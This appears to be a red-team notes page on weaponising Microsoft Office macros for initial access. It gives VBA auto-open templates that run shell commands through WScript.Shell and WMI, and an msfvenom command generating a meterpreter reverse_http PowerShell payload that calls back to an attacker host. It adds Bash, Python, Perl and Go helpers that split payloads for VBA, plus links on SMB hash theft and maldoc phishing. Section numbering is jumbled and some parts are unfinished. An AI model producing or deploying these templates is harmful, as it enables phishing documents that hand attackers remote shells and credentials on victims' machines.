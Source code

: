 # Macros Template

## 01 - Base

Base template when macro is being executed.

```
Sub Document_Open()
    Payload
End Sub

Sub AutoOpen()
    Payload
End Sub
```

## 02 - Command Execution

Command execution.

```vbscript
Sub Payload()
    ' VBA Macro has a 50 characters String
    ' Limit so you have to concatenate it
    Dim Str As String
    Str = Str + ""
    CreateObject("WScript.Shell").Run Str
    ' CreateObject("WScript.Shell").Run "cmd"
End Sub
```

Powershell one-liners, Web-Drive By, harvest SMB credentials, etc.

```vbscript
Public Function Payload() As Variant
    Dim WindowScriptHost As Object
    Set WindowScriptHost = VBA.CreateObject("WScript.Shell")
    Dim waitOnReturn As Boolean: waitOnReturn = True
    Dim windowStyle As Integer: windowStyle = 7
    WindowScriptHost.Run "<powershell_payload>", windowStyle, waitOnReturn
End Function
```

Using WMI method to execute the process.

```vbscript
Sub WMI_Execution()
    Set Wmi = GetObject("winmgmts:\\.\root\cimv2")
    Set Process = Wmi.Get("Win32_Process")
    Process.Create("<commands>")
End Sub
```

## 04 - Payload Inside Document

TODO: Fill this info

Using **comments** in the **Properties** to include malware URL link to execute as shell via `rundll32.exe`

- [Malicious DLL Infection Through Metasploit SMB Exploit](https://www.drchaos.com/post/malicious-dll-infection-thru-metasploit-smb-exploit)

- [The Art of Creating backdoors and Exploits with Metasploit (Duplicate)](https://www.drchaos.com/post/the-art-of-creating-backdoors-and-exploits-with-metasploit)

- [Bank Security: MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

## 05 - Harvest SMB Credentials

TODO: Demonstrate as many examples to fetch credentials using SMB relay via Responder

Refer to **Client-Side Attacks** subsection under [[02 - Responder|Responder]].

Refer to **Client-Side Attacks** subsection under [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit]].

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

- [n00py: Phishing with Maldocs](https://www.n00py.io/2017/04/phishing-with-maldocs/)


## 06 - Macro Formatting

Generate a powershell one liner.

```
$ msfvenom -p windows/x64/meterpreter/reverse_http[s] lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd
```

### 6.1 - Bash

```bash
#!/bin/bash

string=""
chunks=50

for (( i=0; i<${#string}; i+=chunks ))
do
    if [[ ${i} -eq 0 ]]
    then
        echo "string=\"${string:i:chunks}\""
    else
        echo "string+=\"${string:i:chunks}\""
    fi
done
```

### 3.2 - Python

```python
#!/usr/bin/env python

string = ""
n = 50

for i in range(0, len(string), n):
    print("Str = Str + \"" + string[i:i+n] + "\"")
```

### 3.3 - Perl

```perl
#!/usr/bin/env perl

my $string = "";

my @characters = ($string =~ /(.)/g);

$concatenated_string = "";

for(my $i = 0; $i < scalar(@characters); $i++) {
    $concatenated_string .= "Str = Str + \"";
    for(my $j = 0; $j < 50; $j++) {
        $concatenated_string .= $characters[$i++];
    }
    $concatenated_string .= chr(34)."\n";
}
print $concatenated_string;
```

### 3.4 - Go

```go
package main

import "fmt"

func main() {
    String := ""

    for i := 0; i < len(String); i++ {
        fmt.Print("Str = Str + \"")
        for j := 0; j < 50; j++ {
            if i == len(String) {
                break
            }
            fmt.Printf("%c", String[i])
            i++
        }
        fmt.Print("\"\n")
    }
}
```

## 02 - HTA

TODO: Fill this info


---
## References

- [sevagas: Advanced_Initial_access_in_2024_OffensiveX](https://github.com/sevagas/Advanced_Initial_access_in_2024_OffensiveX/blob/main/breach_the_gates_extended.pdf)

- [War Room: Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

- [nicholasmckinney: Shellcode Execution Via HTA](https://gist.github.com/nicholasmckinney/e90e47e0545430656bdcca5544d6b4fc)